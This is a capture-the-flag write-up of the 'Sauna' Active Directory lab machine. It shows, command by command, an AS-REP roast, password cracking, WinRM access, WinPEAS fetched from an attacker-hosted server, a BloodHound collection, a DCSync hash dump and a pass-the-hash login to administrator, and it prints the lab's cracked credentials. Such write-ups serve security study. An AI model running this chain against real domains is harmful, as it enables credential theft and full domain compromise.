

# Sauna

**We're provided target ip address only**

## **Scanning & Enumeration**

I begin an active scanning on target ip to find open ports. I used multiple tool to get more accurate result. Based on scanning result, we saw many services running on target machine, including web services (http), remote procedure call (RPC), Kerberos, LDAP and so on which useful in the future.

```
rustscan -a $target-ip
```

<figure><figcaption></figcaption></figure>

```
nmap -sC -sV -p- -Pn $target-ip
```

<figure><figcaption></figcaption></figure>

### Services Enumeration

Nothing much here. SMB service is not really useful, signing enabled and required. I straight to website to enumerate possible subdomain, path, and vulnerability.

### Users Reconnaissance

After dive deep into target website, I find out the list of staff with probability high privileges to the system. I decided to use this information to craft a wordlist of usernames and then try it on target open services.

<figure><figcaption></figcaption></figure>

### Users Enumeration

I crafted wordlist of usernames with commonly used pattern using [username-anarchy](https://github.com/urbanadventurer/username-anarchy) script based on names I got from the website. Then, I compiled these wordlists into a giant wordlist. I utilized NetExec(NXC) tool to test vuln ASREP-Roast on each usernames. Luckily we found a domain user (`fsmith`) that is vulnerable, we got the NTLM hashed password of the domain user.

```
# Generate wordlists using harvested names
/username-anarchy Fergus Smith
/username-anarchy Hugo Bear
/username-anarchy Steven Kerb
/username-anarchy Shaun Coins
/username-anarchy Bowie Taylor
/username-anarchy Sophie Driver
# Then you have to manually combine this wordlists
# Testing ASREP-Roast on each usernames using NXC
netexec ldap $dc-ip -u username_wordlist -p '' --asreproast asreproast_output
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Password Cracking

Based on NTLM hash we got from NXC. I stored it in the file called `fsmith_passhash`. We can crack this hash using JohnTheRipper. Finally, we cracked the password (`Thestrokes23`).

```
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt fsmith_passhash
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Gaining Access

Once I have the credential of one of the domain user.

`fsmith:Thestrokes23`&#x20;

I can leverage this credential on other services, the most prominent service to try on this target is remote access to the target since the **Microsoft Windows RPC** port is open. We can use `Evil-WinRM` to get remote access on target machine.

```
evil-winrm -i $target-ip -u fsmith -p 'Thestrokes23'
```

<figure><figcaption></figcaption></figure>

Luckily, We got the flag for user.

## Privilege Escalation

### Privilege Escalation Enumeration

Now, I want to escalate the privilege. I utilized, [WinPEAS ](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)to do enumeration on target system. I looked for files that might contain credentials, misconfiguration, or vulnerabilities that I possibly abuse.

First, I downloaded WinPEAS via **python http.server** from my machine since my machine in the same network as target machine.

Second, I ran the script on target machine.

```
# Open HTTP Service on Attacker Machine (Ensure the scr)
python3 -m http.server 8000

# Download WinPEAS on Target Machine && Run WinPEAS script
Invoke-WebRequest -Uri 'http:/$attacker-ip:8000/winPeas.exe' -OutFile 'WinPeas.exe'
ls
/WinPeas.exe domain
```

<figure><figcaption></figcaption></figure>

After **A LONGGG LONGGG** review of WinPEAS Result, I discovered domain service account cred.

`svc_loanmanager:Moneymakestheworldgoround!`&#x20;

<figure><figcaption></figcaption></figure>

We can utilized this cred to gain more information.

### Data Collection via Bloodhound

Leveraging from domain service account, I dump the AD information such as AD objects, sessions, group memberships and trusts, ACLs. This data useful to model the target environment and determine attack chain.

I utilized Bloodhound via NXC

```
nxc ldap $dc-ip -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' --bloodhound -c All --dns-server $dc-ip
```

<figure><figcaption></figcaption></figure>

Once the command is executed. A zip file is created containing JSON files of OUs, groups, domains and etc.

<figure><figcaption></figcaption></figure>

With this JSON files, I can determine path to gain higher privilege. I used Bloodhound to ingest data and graph the path. From what have I analyze on relation in and out from SVC\_LOANMGR. I discovered a misconfiguration and possible exploit via DCSync using DCSync Attack.

<figure><figcaption></figcaption></figure>

> _What Are DCSync Attacks?_
>
> _A DCSync attack uses commands in Microsoft Directory Replication Service Remote Protocol (MS-DRSR) to pretend to be a domain controller (DC) in order to get user credentials from another DC._\
> \
> &#xNAN;_**DCSync Attack** requires a compromised user account with domain replication privileges. Once that is established, one can find a domain controller, tell it to replicate, and get password hashes from its subsequent response._

### Privilege Escalation Exploit

I used impacket-secretdump to dump domain users and password hashes. As a result, I found Administrator username and the password hash.

```
impacket-secretsdump 'egotistical-bank/svc_loanmgr':'Moneymakestheworldgoround!'@$dc-ip
```

<figure><figcaption></figcaption></figure>

### Privilege Escalation Gain Access

Once I have the hash of administrator. I used [Pass-The-Hash](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/pass-the-hash-attack) technique to remote access using impacket-wmiexec on victim machine.

```
impacket-wmiexec -hashes 'aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e' 'egotistical-bank/administrator@$target-ip'
```

<figure><figcaption></figcaption></figure>

## Admin Data Discovery and Collection

Finally, I able to login as admin. Now, I just have to locate the file of the flag, which located at `C:\Users\Administrator\Desktop\root.txt` .

```
cd Administrator
dir
cd Desktop
dir
type root.txt
```

<figure><figcaption></figcaption></figure>
